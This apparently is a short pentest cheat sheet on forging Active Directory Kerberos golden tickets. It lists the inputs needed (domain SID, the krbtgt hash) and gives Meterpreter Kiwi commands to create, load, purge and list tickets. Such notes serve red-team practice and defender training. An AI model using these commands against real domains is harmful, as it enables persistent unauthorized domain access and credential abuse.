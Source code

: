 # Active Directory - Golden Tickets

### Overview

To generate a golden ticket, the following tree items are needed:
  - The domain name
  - The SID for the domain
  - The password hash of the krbtgt user from the Domain Controller

### Generate golden tickets

###### Mimikatz with Metasploit

Mimikatz 2.0 is available in Meterpreter as the Kiwi extension.

To load the extension in memory on a meterpreter shell:

```
use kiwi
```

The *golden_ticket_create* command can be used to create a golden ticket:

```
golden_ticket_create -d '<FQDN_DOMAIN>' -s '<SID_DOMAIN>' -k '<KRBTGT_HASH>' -u '<USERNAME>' -t '<FULL_SAVE_PATH>'

Usage: golden_ticket_create [options]
OPTIONS:
    -d <opt>  FQDN of the target domain (required)
    -g <opt>  Comma-separated list of group identifiers to include (eg: 501,502)
    -h        Help banner
    -i <opt>  ID of the user to associate the ticket with
    -k <opt>  krbtgt domain user NTLM hash
    -s <opt>  SID of the domain
    -t <opt>  Local path of the file to store the ticket in (required)
    -u <opt>  Name of the user to create the ticket for (required)
```

Tickets can be loaded/purged using the *kerberos_ticket_use* and
*kerberos_ticket_purge* commands:

```
kerberos_ticket_use <FULL_SAVE_PATH>
kerberos_ticket_purge
```

### Check tickets

The *klist* CMD command can be used to list the available kerberos tickets:

```
CMD> klist

Cached Tickets: (X)
...
```

On a meterpreter shell, the kiwi *kerberos_ticket_list* command can be used:

```
kerberos_ticket_list
```

